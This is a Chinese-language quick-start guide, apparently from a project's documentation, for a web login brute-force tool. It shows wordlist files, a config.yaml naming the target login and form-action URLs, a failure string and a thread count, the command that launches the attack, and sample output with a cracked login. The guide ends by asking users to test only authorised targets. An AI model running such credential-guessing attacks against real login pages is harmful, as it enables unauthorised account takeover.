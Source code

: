 # 快速开始

本指南将带您在5分钟内完成一次基本的爆破测试。

## 1. 准备工作

在开始之前，请确保您已完成 [安装指南](./Installation.md) 中的所有步骤。

## 2. 准备目标和字典

### a. 目标登录页面
本次示例将使用 `https://redteamnotes.com/login` 作为演示目标。

### b. 准备字典文件
创建两个简单的文本文件：
- `users.txt`:
  ```
  test
  admin
  guest
  ```
- `passwords.txt`:
  ```
  test
  password
  123456
  ```

## 3. 编写配置文件

在项目根目录创建一个名为 `config.yaml` 的文件，并填入以下内容：

```yaml
# --- 核心配置 ---
# 登录表单所在的页面 URL
url: "https://redteamnotes.com/login"

# 表单提交的目标 URL，通常与登录页面相同或在表单的 action 属性中指定
action: "https://redteamnotes.com/login/authenticate"

# 用户名和密码字典的路径
users: "users.txt"
passwords: "passwords.txt"

# --- 结果判断 ---
# 登录失败时，页面中会包含的特征字符串
fail_string: "Invalid credentials"

# --- 性能配置 ---
# 并发线程数
threads: 5
```

> **提示**: `fail_string` 是判断登录是否失败的关键。请根据实际目标页面的返回内容进行设置。

## 4. 启动爆破

打开终端，确保您已激活虚拟环境，然后运行以下命令：

```bash
python -m webloginbrute --config config.yaml
```

## 5. 查看结果

程序将开始执行爆破，您会在终端看到实时的进度和统计信息。

如果爆破成功，程序会高亮显示成功的用户名和密码，并自动停止。

```
...
[INFO] 尝试登录: test:test -> 失败
[INFO] 尝试登录: test:password -> 失败
[INFO] 登录成功: test:123456
...
```

至此，您已成功完成了一次基本的登录爆破！

## 下一步

- 探索 [配置详解](./Configuration.md) 以了解更多高级选项。
- 学习如何使用不同的 [对抗级别](./Aggression-Levels.md) 来应对不同的目标。

## 安全提醒

- 仅对授权的目标进行测试
- 遵守当地法律法规
- 不要用于非法用途
- 测试完成后及时清理进度文件 